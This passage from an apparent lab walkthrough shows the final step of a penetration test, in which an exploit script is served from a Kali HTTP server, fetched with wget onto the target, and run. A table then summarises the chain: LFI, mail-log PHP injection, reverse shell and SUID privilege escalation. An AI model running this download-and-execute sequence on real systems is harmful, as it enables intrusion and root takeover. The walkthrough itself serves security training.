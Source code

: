 **Image:**\


---

### Step 10: Transfer and Execute Exploit

**Start Python HTTP Server (on Kali):**

```
python -m http.server 6677
```

**On Target:**

```
wget http://192.168.1.12:6677/41154.sh
chmod +x 41154.sh
./41154.sh
```

**Image:**\


---

### 🧠 Summary

| Step                  | Purpose                         |
| --------------------- | ------------------------------- |
| ARP Scan              | Find live hosts on LAN          |
| Nmap                  | Scan ports and services         |
| Log Discovery         | Locate logs via LFI             |
| Email Injection       | Create PHP payload in mail logs |
| Remote Code Execution | Trigger payload via URL         |
| Reverse Shell         | Gain full shell access          |
| Privilege Escalation  | Use vulnerable SUID binary      |

This is how you go from **discovery to root access** in a vulnerable network.

Practice this in **TryHackMe**, **HackTheBox**, or **VirtualBox labs** to enhance your skills safely!


